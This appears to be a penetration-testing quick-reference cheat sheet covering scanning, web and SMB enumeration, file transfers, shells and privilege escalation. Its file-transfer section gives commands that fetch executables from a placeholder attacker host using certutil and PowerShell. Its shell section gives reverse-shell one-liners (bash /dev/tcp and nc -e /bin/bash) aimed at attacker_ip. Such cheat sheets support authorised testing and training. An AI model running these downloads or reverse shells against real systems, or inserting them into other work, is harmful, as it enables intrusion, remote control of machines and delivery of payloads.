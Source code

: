 
## Quick Reference Commands

### Network Scanning
```bash
nmap -sC -sV -oA scan target.com
nmap -p- -T4 target.com
nmap --script vuln target.com
```

### Web Enumeration
```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://target.com/FUZZ -w wordlist.txt
nikto -h http://target.com
```

### SMB Enumeration
```bash
enum4linux -a target.com
smbclient -L //target.com
smbmap -H target.com
```

### File Transfers
```bash
# HTTP Server (Python)
python3 -m http.server 80
python2 -m SimpleHTTPServer 80

# Download (Windows)
certutil -urlcache -f http://attacker/file.exe file.exe
powershell -c "(New-Object Net.WebClient).DownloadFile('http://attacker/file.exe','file.exe')"

# Download (Linux)
wget http://attacker/file
curl http://attacker/file -o file
```

### Shells
```bash
# Listener
nc -lvnp 4444
rlwrap nc -lvnp 4444

# Reverse shell
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
nc attacker_ip 4444 -e /bin/bash
```

### Privilege Escalation
```bash
# Linux
sudo -l
find / -perm -4000 -type f 2>/dev/null
LinPEAS.sh

# Windows
whoami /priv
icacls "path"
winPEAS.exe
```

---